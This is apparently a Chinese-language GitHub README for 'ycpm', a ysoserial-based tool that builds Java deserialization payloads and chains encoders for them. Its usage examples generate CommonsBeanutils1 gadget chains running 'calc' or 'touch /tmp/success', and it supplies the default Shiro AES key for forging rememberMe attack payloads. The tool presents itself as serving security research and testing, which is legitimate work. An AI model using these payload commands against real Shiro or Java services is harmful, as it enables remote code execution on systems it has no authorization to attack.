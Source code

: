 # 🌐 ycpm - Ysoserial Chain Process Model

**ycpm** 是一个用于构建和处理 Java 反序列化利用链的工具，支持动态编码、多级编排。  
它基于 [ysoserial](https://github.com/frohoff/ysoserial) 构建，本项目仅用于 Java 安全研究与学习目的，旨在帮助安全研究人员、开发者简单构建安全测试用的反序列化payload。

请勿将本项目中的任何代码或技术用于未授权的测试、攻击、渗透等任何非法用途。

---

## ✨ 功能特性

- ✅ 兼容 ysoserial 的 payload 构造逻辑
- 🔗 支持 encoder 链：base64、bcel、shiro 等组合

---

## 🚀 使用示例

### 1️⃣ 标准 ysoserial 利用链

```bash
java -jar ycpm.jar "CommonsBeanutils1" "calc"
```
等价于：java -jar ysoserial.jar "CommonsBeanutils1" "calc"

### 2️⃣ 构造并进行链式编码

```bash
# 在标准ysoserial的基础上使用base64编码并通过终端输出
java -jar ycpm.jar "CommonsBeanutils1" "calc" "base64->print"

# 使用base64编码并输出到exploit.ser文件
java -jar ycpm.jar "CommonsBeanutils1" "calc" "base64->file:exploit.ser"

# 使用shiro encoder并指定加密用的key，将结果通过终端输出
java -jar ycpm.jar "CommonsBeanutils1" "calc" "shiro:kPH+bIxk5D2deZiIxcaaaA==->print"

# 使用shiro encoder，使用默认key(kPH+bIxk5D2deZiIxcaaaA==)，并将结果进行url编码输出到终端
java -jar ycpm.jar "CommonsBeanutils1" "calc" "shiro->url->print"

# 在此基础上你还可以多次调用编码器，就像这样：
java -jar ycpm.jar "CommonsBeanutils1" "calc" "shiro->url->url->print"
```

## 🧩 Encoder 编码器

本模块实现了一个 **可插拔、可链式组合的编码器框架**，支持多种常见编码方式，适用于反序列化、加密流构造、Payload 编码等场景。各个编码器均支持通过注解注册及自动扫描方式进行加载，可自由组合调用，形成链式调用流程。

如果链条的末尾未使用`file`、`print`的话，则会默认在链条的结尾调用`print`

### ✅ 当前支持的编码器列表

| 编码器名称 | 描述                                                | 输入类型                           | 输出类型         | 示例                                       |
|------------|---------------------------------------------------|--------------------------------|--------------|------------------------------------------|
| `base64`   | 标准 Base64 编码                                      | `Object` / `byte[]` / `String` | `String`     | `base64`                                 
| `shiro`    | Shiro AES 加密 + Base64 编码（用于构造 rememberMe payload） | `Object` / `byte[]`            | `String`     | `shiro`、`shiro:kPH+bIxk5D2deZiIxcaaaA==` |
| `BCEL`     | BCEL 编码器，用于将类字节码转为 `$$BCEL$$` 编码格式                | `Object` / `byte[]`                       | `String`     | `bcel`                                   |
| `URL`      | URL 编码                                            | `String`                       | `String`     | `url`                                    |
| `File`     | 将内容输出到文件                                          | `String`（文件路径）                 | `Boolean`    | `file`、`file:exploit.ser`                |
| `Print`    | 默认使用System.out输出内容                                | 任意                             | `System.out` | `print`                                  |

> 💡 编码器均支持链式组合，例如：Chain -> BCEL 编码 -> Base64 编码。

### 🔗 编码器链式调用示例

```bash
# 生成shiro的默认密钥攻击payload，并打印在终端，下边这两条命令是相等的
java -jar ycpm.jar "CommonsBeanutils1" "touch /tmp/success" "shiro"
java -jar ycpm.jar "CommonsBeanutils1" "touch /tmp/success" "shiro->print"

# 生成shiro指定密钥攻击payload，并打印在终端，下边这两条命令是相等的
java -jar ycpm.jar "CommonsBeanutils1" "touch /tmp/success" "shiro:kPH+bIxk5D2deZiIxcaaaA=="
java -jar ycpm.jar "CommonsBeanutils1" "touch /tmp/success" "shiro:kPH+bIxk5D2deZiIxcaaaA==->print"

# 生成shiro指定密钥攻击payload，并将结果输出到exploit.ser文件
java -jar ycpm.jar "CommonsBeanutils1" "touch /tmp/success" "shiro->file:exploit.ser"

# 在此基础上你还可以多次调用编码器，就像这样：
java -jar ycpm.jar "CommonsBeanutils1" "touch /tmp/success" "shiro:kPH+bIxk5D2deZiIxcaaaA==->url->print"
```

## 🙏 致谢

该项目参考了以下相关内容，在此表示感谢！

- [frohoff/ysoserial](https://github.com/frohoff/ysoserial)
- [AntSwordProject/AwesomeScript](https://github.com/AntSwordProject/AwesomeScript)
- [rebeyond/Behinder](https://github.com/rebeyond/Behinder)